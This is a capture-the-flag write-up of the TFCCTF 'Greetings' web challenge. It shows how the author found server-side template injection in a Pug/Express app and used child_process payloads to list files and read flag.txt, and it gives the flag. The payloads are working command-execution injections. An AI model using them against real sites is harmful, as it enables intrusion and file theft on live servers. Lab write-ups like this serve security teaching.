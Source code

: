 # GREETINGS

![](../images/greetings-part-1.png)

I start the instance, and click on the link generated by the instance, which takes me to this website:

![](../images/greetings-part-2.png)

I try to enter nothing, but I get a popup that tells me to enter something, so I enter my name as "a", which results in:

![](../images/greetings-part-3.png)

I then look at the URL at the top of the page:

```txt
http://challs.tfcctf.com:30691/result?username=a
```

I wondered what would happen if I deleted the `?username` filed from the URL, so, I changed the URL to:

```txt
http://challs.tfcctf.com:30691/result
```

Which resulted in:

![](../images/greetings-part-4.png)

Interesting, as I wasn’t allowed to leave the username field blank in the welcome screen. Anyway, I open BurpSuite, and while analyzing the requests, I notice in one of the respones:

![](../images/greetings-part-5.png)

Express is written in Javascript, therefore to exploit any vulnerability present on the website, I must use Javascript exploits. I began by attempting a Javascript SSTI attack, entering:

![](../images/greetings-part-6.png)

If the website gives me an error after executing this, it is vulnerable to SSTI, as if it wasn't vulnerable to SSTI, it wouldn't give an error. I then execute my input, which results in:

![](../images/greetings-part-7.png)

The website is vulnerable. Looking at the text of the error:

```txt
Syntax Error: Unexpected token
    at makeError (/usr/src/app/node_modules/pug-error/lib/index.js:34:15)
    at Lexer.error (/usr/src/app/node_modules/pug-lexer/index.js:62:15)
    at Lexer.assertExpression (/usr/src/app/node_modules/pug-lexer/index.js:96:12)
    at Lexer.addText (/usr/src/app/node_modules/pug-lexer/index.js:627:12)
    at Lexer.text (/usr/src/app/node_modules/pug-lexer/index.js:653:12)
    at Lexer.callLexerFunction (/usr/src/app/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.advance (/usr/src/app/node_modules/pug-lexer/index.js:1689:12)
    at Lexer.callLexerFunction (/usr/src/app/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.getTokens (/usr/src/app/node_modules/pug-lexer/index.js:1706:12)
    at lex (/usr/src/app/node_modules/pug-lexer/index.js:12:42)
```

The website seems to be stored in the `/usr/src/app/` directory of the server. I then type:

```txt
 #{process.mainModule.require('child_process').spawnSync('ls', ['/usr/src/app/']).stdout}
```

This command forces the entry point of the server (`process.mainModule`) to be able to create subprocesses (`.require('child_process')`). Then, a new processes is created by the server, executing the shellcode of `ls /usr/src/app/` (`.spawnSync('ls', ['/usr/src/app/'])), with the standard output of the command enabled (`.stdout`). I then execute the command, which results in:

![](../images/greetings-part-9.png)

I then type:

```txt
#{process.mainModule.require('child_process').spawnSync('cat', ['/usr/src/app/flag.txt']).stdout}
```

This command is very similar to my previous command, but instead of listing all the files in the `/usr/src/app/` directory, it uses the `cat` comamnd to output the contents of `flag.txt`. I then execute the command, which results in:

![](../images/greetings-part-10.png)

I then submit `TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}` and solve the challenge.










